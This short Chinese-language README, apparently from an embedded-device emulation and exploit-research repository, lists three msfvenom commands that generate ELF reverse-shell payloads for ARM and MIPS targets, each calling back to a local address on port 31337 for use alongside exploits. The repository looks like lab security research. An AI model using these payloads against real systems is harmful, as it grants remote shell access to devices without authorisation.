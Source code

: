 # Metasploit reverse shell

使用 Metasploit 生成的反向 shell，在写 exp 时复制到 `system-emu/tools` 目录下使用。

```sh
$ msfvenom -p linux/armle/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf-arm
$ msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf-mipsel
$ msfvenom -p linux/mipsbe/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf-mips
```
